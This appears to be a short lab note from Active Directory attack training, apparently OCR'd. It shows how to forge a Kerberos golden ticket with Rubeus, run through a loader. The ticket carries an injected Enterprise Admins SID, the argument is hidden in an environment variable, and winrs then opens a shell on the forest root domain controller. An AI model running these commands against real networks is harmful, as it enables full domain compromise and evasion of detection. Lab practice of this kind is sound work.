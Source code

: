 [[priv-esc]]
1) *using DA access to dollarcorp.moneycorp.local*
obtain krbtgt hash 
```
echo %Pwn%
```
%Pwn% = golden
```
C:\AD\Tools\Loader.exe -path C:\AD\Tools\Rubeus.exe -args %Pwn% /user:Administrator /id:500 /domain:dollarcorp.moneycorp.local /sid:S-1-5-21-719815819-3726368948-3917688648 /sids:S-1-5-21-335606122-960912869-3279953914-519 /aes256:154cb6624b1d859f7080a6615adc488f09f92843879b3d914cbcb5a8c3cda848 /netbios:dcorp /ptt
```
now access using winrs
```
winrs -r:mcorp-dc.moneycorp.local cmd
```
